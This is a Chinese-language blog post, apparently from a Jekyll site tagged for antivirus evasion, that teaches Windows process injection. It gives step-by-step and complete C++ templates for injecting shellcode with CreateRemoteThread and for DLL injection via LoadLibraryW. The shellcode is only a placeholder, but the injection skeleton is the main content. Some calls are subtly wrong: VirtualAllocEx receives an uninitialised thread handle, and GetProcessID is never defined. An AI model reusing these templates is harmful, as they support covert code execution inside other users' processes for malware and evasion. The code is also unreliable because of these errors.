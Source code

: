 ```yaml
---
layout: post
title: CreateRemoteThread Inject
categories: Inject
description: Inject 之 CreateRemoteThread
keywords: Windows，注入，免杀
---
```


远程线程注入技术

# 一、PE注入

## 1.获取目标进程句柄

首先需要获取注入的进程信息（例如 explorer.exe）。通过调用三个 API 来搜索进程：CreateToolhelp32Snapshot，Process32First，Process32Next。CreateToolhelp32Snapshot 用于枚举指定进程或所有进程的堆或模块状态，返回一个快照。 Process32First 检索快照中有关第一个进程的信息，然后在循环中使用 Process32Next 来遍历它们。 获取到目标进程后，再通过调用OpenProcess 获取目标进程的句柄。

```
	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessID());
```

## 2.申请空间

调用 VirtualAllocEx 申请一段空间来写入 Shllcode

```c++
	// 调用 VirtualAllocEx 申请一段空间来写入 Shllcode
	pRemoteBuffer = VirtualAllocEx(hRemoteThread, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
```

## 3.写入内存

调用 WriteProcessMemory 写入分配的内存中的 Shllcode

```c++
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, pRemoteBuffer, shellcode, sizeof shellcode, NULL);
```

## 4.创建线程

创建一个在另一个进程的虚拟地址空间中运行的线程

调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread

```c++
	// 调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread 
	hRemoteThread = CreateRemoteThread(hProcessHandle, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteBuffer, NULL, 0, NULL);
```

## 完整代码

```
#include <Windows.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	HANDLE	hProcessHandle;
	HANDLE	hRemoteThread;
	PVOID	pRemoteBuffer;

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessID());
	// 调用 VirtualAllocEx 申请一段空间来写入 Shllcode
	pRemoteBuffer = VirtualAllocEx(hRemoteThread, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, pRemoteBuffer, shellcode, sizeof shellcode, NULL);
	// 调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread 
	hRemoteThread = CreateRemoteThread(hProcessHandle, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteBuffer, NULL, 0, NULL);
	CloseHandle(hProcessHandle);

	return 0;
}
```

# 二、DLL注入

流程：目标进程-传入DLL地址-开启远程线程-加载DLL-实现DLL注入

使用函数如下：

`OpenProcess    // 获取已知进程的句柄`

`VirtualAllocEx    // 在远程进程中申请内存空间`

`WriteProcessMemory    // 向进程中写入东西`

`GetProcAddress    // 取得函数在DLL中的地址`

`CreateRemoteThreadEx    // 创建远程线程——即在其他进程中创建新的线程`

`CloseHandle    // 关闭句柄`

## 完整代码

```
#include <Windows.h>
#include <atlstr.h>

int main()
{
	HANDLE	hProcessHandle;
	HANDLE	hRemoteThread;
	PVOID	pRemoteBuffer;

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessID());
	// 获取 DLL 路径
	CString DLLPath;
	SIZE_T PathSize = (_tcslen(DLLPath) + 1) * sizeof(TCHAR);
	// 调用 VirtualAllocEx 申请一段空间来写入 DLL 路径
	pRemoteBuffer = VirtualAllocEx(hRemoteThread, NULL, PathSize, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 DLL 路径
	WriteProcessMemory(hProcessHandle, pRemoteBuffer, DLLPath, PathSize, NULL);
	// 获取LoadLibrary的入口点地址，需要进行强制类型转换
	PTHREAD_START_ROUTINE pfnStartAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	// 调用 API，如 CreateRemoteThread，NtCreateThreadEx 或 RtlCreateUserThread 
	hRemoteThread = CreateRemoteThreadEx(hProcessHandle, NULL, NULL, pfnStartAddress, pRemoteBuffer, NULL, NULL, NULL);

	// 等待线程结束，清理线程和进程
	WaitForSingleObject(hRemoteThread, INFINITE);
	CloseHandle(hRemoteThread);
	CloseHandle(hProcessHandle);

	return 0;
}
```

